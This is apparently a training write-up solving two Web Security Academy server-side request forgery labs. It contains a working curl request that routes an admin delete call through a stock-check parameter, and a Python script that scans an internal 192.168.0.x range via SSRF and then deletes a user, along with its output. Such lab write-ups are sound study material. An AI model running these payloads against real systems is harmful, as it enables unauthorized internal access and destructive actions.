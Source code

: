 # Server-side Request Forgery (SSRF)

SSRF vulnerabilities arise when an attacker is able to make the server-side application request external or internal locations, which are uninteded. Essentially controlling where the backend sends requests to.

A SSRF attack can allow an attacker to visit (retrieve or view) the contents of authenticated locations. It could locations such as `/admin`, where the requests are only accepted if the origin is trusted (i.e internal or on whitelist). The attacker is able to bypass this by using the server-side application to make the request to the authenticated location.

## Lab: Basic SSRF against the local server

**Lab Description**:  This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

### Lab solution

The store uses a stock check function which passes a URL for the backend to query. The request includes the following Form data: `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`

If the stock check URL is replaced with `http://localhost/admin`, the server returns the admin page. From here it is possible to open the response in a new tab. If the attacker tries to use the admin functionalities from their own browser, the page denies the request because it does not originate from a trusted origin.

However, trying to delete the user `carlos` provides the attacker with the URL which delete the user, and now it is possible to send the request to the delete endpoint with the correct parameters, through the stock check endpoint and achieve SSRF:

```cURL
curl 'https://0a8c00eb04add581816b3963003c0093.web-security-academy.net/product/stock' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://0a8c00eb04add581816b3963003c0093.web-security-academy.net/product?productId=1' -H 'Origin: https://0a8c00eb04add581816b3963003c0093.web-security-academy.net' -H 'Connection: keep-alive' -H 'Cookie: session=xEYpV6Obpy2zk2k5LpEAE2IpBCZlEGlM' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: no-cors' -H 'Sec-Fetch-Site: same-origin' -H 'TE: trailers' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'stockApi=http://localhost/admin/delete?username=carlos'

```

The above curl command was simply copied from the browser and executed with the appended `/admin/delete?username=carlos` to solve the lab.

## SSRF attacks to access other internal systems running on same network

If the targeted application is not hosted on the server vulnerable to SSRF, and the target is unreachable from the public internet, it is possible that the server vulnerable to SSRF is on the same network (or shares some VLAN) as the targeted application. Then the SSRF vulnerable application can be used to target the non-vulnerable server.

This makes SSRF vulnerable servers a great entrypoint into a network.

## Lab: Basic SSRF against another back-end system

**Lab Description**:  This lab has a stock check feature which fetches data from an internal system. To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

### Lab Solution

To solve this lab it is seen that the server can be on any server in the space: `192.168.0.1 -- 192.168.0.255`. To find the correct services a scan should be conducted. As the target server is not accesible from the public internet, a script which checks the responses of the "stock" request is created to see if the response resolves to status code 200. If yes, the correct service has been found. The script looks as follows:

```Python
import requests
from bs4 import BeautifulSoup as bs
url = "https://0ab8007e03d2f3ff804b7b7700d100e7.web-security-academy.net/product/stock"
admin_url = ""
headers = {'Cookie': 'session=BrQf4eH9TTxyHZShtrr9bNh1NU3oNYM2'}
for ip_range in range(240, 256):
    print("IP: ", ip_range)
    body = { "stockApi": f'http://192.168.0.{ip_range}:8080/admin' }
    session = requests.Session()
    req = session.post(url=url, data=body)
    if(req.status_code == 200):
        print("Found admin at url: ", body)
        soup = bs(req.content)
        html = soup.prettify()
        print("Body: ", html)
        admin_url=f'http://192.168.0.{ip_range}:8080/admin/delete?username=carlos'
        break

#Delete user with SSRF
session = requests.Session()
body = { "stockApi": admin_url }
req = session.post(url=url, data=body, headers=headers)
print(req.status_code, " -- ", req.content)
```

Exert of script output

```curl
IP:  240
IP:  241
IP:  242
IP:  243
IP:  244
IP:  245
Found admin at url:  {'stockApi': 'http://192.168.0.245:8080/admin'}
  <div theme="">
   <section class="maincontainer">
    <div class="container is-page">
     <header class="navigation-header">
      <section class="top-links">
       <a href="/">
        Home
       </a>
       <p>
        |
       </p>
       <a href="/admin">
        Admin panel
       </a>
       <p>
        |
       </p>
       <a href="/my-account">
        My account
       </a>
       <p>
        |
       </p>
      </section>
     </header>
     <header class="notification-header">
     </header>
     <section>
      <h1>
       Users
      </h1>
      <div>
       <span>
        wiener -
       </span>
       <a href="/http://192.168.0.245:8080/admin/delete?username=wiener">
        Delete
       </a>
      </div>
      <div>
       <span>
        carlos -
       </span>
       <a href="/http://192.168.0.245:8080/admin/delete?username=carlos">
        Delete
       </a>
      </div>
     </section>
     <br/>
     <hr/>
    </div>
   </section>
   <div class="footer-wrapper">
   </div>
  </div>
 </body>
</html>
```

In the output of the scan, we are able to view the URL of the delete api function. This is used to delete the user `carlos`

This approach works because of SSRF. The webserver is able to access the internal service, using the call it makes with the URL in the `stockApi` field of the body, when calling `/product/stock`.

Lab is solved after the user is deleted.
